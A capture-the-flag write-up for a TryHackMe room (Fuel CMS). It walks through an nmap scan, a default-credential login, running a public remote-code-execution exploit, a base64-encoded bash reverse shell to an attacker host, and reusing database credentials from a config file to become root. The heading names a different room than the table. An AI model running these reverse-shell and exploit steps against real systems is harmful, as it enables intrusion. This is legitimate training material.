

# THM: ToolsRus

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image |  |
| Room | Ignite |
| URL | https://tryhackme.com/room/ignite |
| Difficulty | Easy |

## Concepts/Tools Used

- [netcat](../../tools/netcat.md)
- [nmap](../../tools/nmap.md)
- [Searchsploit](../../tools/searchsploit.md)
- Base64 Encoding

## Room Description

A new start-up has a few issues with their web server.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-17 06:00 BST
Nmap scan report for target.thm (10.10.56.91)
Host is up (0.00014s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
MAC Address: 02:4F:B3:1C:25:11 (Unknown)
```

I notice that an http server is running on port 80 and so I take a look at the site with Firefox.



The site is using the Fuel CMS version 1.4 software. Near the bottom it mentions that the default username and password are admin:admin.

The nmap scan above mentioned the /fuel/ directory. When I browse that page I notice that it is a login page for the Fuel CMS.


I use the credentials found earlier, and I am in.

## Getting a Foothold

I looked around for a place where I could inject PHP code and run a remote shell. I was unable to find anything and so I ran the following command to see if I could find an exploit in Fuel CMS:

```bash
$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                 | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)            | php/webapps/48778.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I start at the top of the list with 47138 and copy it to my current directory using the following command:

```bash
$ searchsploit -m 47138
```

I look at the script and see that it is for python 2 (python3 requires the print function to have parentheses around what gets printed). I make two alterations to the script:

- The url variable on line 14 gets updated from "http://127.0.0.1:8881" to "http://target.thm".
- The proxy variable on line 25 gets updated from {"http":"http://127.0.0.1:8080"} to {}.

I run the script with the following command:

```bash
$ python 47138.py
cmd:whoami
systemwww-data

<div style="...
```

I now have remote code execution on the machine. Now I run a few commands to get the contents of the flag.txt file:

```bash
cmd:ls -lha /home
systemtotal 12K
drwxr-xr-x  3 root     root     4.0K Jul 26  2019 .
drwxr-xr-x 24 root     root     4.0K Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4.0K Jul 26  2019 www-data
```

I check what files are in the /home/www-data directory:

```bash
cmd:ls -lha /home/www-data
systemtotal 12K
drwx--x--x 2 www-data www-data 4.0K Jul 26  2019 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
```

I get the contents of the flag.txt file:

```bash
cmd:cat /home/www-data/flag.txt
systemREDACTED
```

I don't want to keep running commands like this, I need a reverse shell. I setup a listener on my machine in a new terminal with the following command:

```bash
$ nc -lnvp 4444
```

I tried to get a reverse shell using commands [found here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Each time I ran the commands on the site above, none of them worked. I have used those commands before and I know they are good commands. I remembered that sometimes you need deliver the payload a different way to actually run it.

With that in mind, I base64 encoded the payload so that it could transfer properly. Here is the command I used to encode it:

```bash
echo "bash -i >& /dev/tcp/<attack_box_ip>/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==
```

I am using a command that will not work because the attack_box_ip must be filled in. I took the output of the previous command and ran:

```bash
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==" | base64 -d | bash
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). This didn't yield anything.

I remembered that the homepage of Fuel CMS mentioned where the configuration files were stored. I ran the following command:

```bash
$ cat /var/www/html/fuel/application/config/database.php
```

The output had some interesting lines:

```bash
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => REDACTED,
	'database' => 'fuel_schema',
...
```

Since the username is root. I tried to log in as the root user with that password:

```bash
su root
```

It worked. I'm in! The cursor changed to the # character to let me know that I was root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
